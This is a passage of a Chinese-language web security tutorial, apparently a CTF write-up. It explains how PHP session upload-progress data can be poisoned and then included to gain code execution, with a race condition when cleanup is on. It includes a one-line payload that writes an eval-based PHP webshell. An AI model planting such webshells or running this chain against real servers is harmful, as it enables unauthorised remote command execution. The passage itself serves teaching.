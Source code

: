 ```php
$key = ini_get("session.upload_progress.prefix") . $_POST[ini_get("session.upload_progress.name")]; 
echo $_SESSION[$key]; 
```

于是我们得到了类似这样的 **$_SESSION 数据**

```php
<?php
$_SESSION["upload_progress_123"] = array(
 "start_time" => 1234567890,   // The request time
 "content_length" => 57343257, // POST content length
 "bytes_processed" => 453489,  // Amount of bytes received and processed
 "done" => false,              // true when the POST handler has finished, successfully or not
 "files" => array(
  0 => array(
   "field_name" => "file1",       // Name of the <input/> field
   // The following 3 elements equals those in $_FILES
   "name" => "foo.avi",
   "tmp_name" => "/tmp/phpxxxxxx",
   "error" => 0,
   "done" => true,                // True when the POST handler has finished handling this file
   "start_time" => 1234567890,    // When this file has started to be processed
   "bytes_processed" => 57343250, // Amount of bytes received and processed for this file
  ),
  // An other file, not finished uploading, in the same request
  1 => array(
   "field_name" => "file2",
   "name" => "bar.avi",
   "tmp_name" => NULL,
   "error" => 0,
   "done" => false,
   "start_time" => 1234567899,
   "bytes_processed" => 54554,
  ),
 )
);
```

可以看到我们的 123 赫然出现在 session 的数组中，那么如果我们 POST 的值不是 123 而是 <?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?> 呢，是不是我们就能通过包含这个session 文件达到写shell 的目的了呢？

但是还存在一个问题，当 session.upload_progress.cleanup为 On 的时候，$_SESSION 中的这个上传进度信息会在读取完全部的 POST 数据后立刻删除（删除的是 session 文件中的上传进度的部分内容，而不是session ），于是乎这个时候就需要条件竞争

**如图所示：**

[![img](assets/202304161625983.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session enable.png)此处输入图片的描述

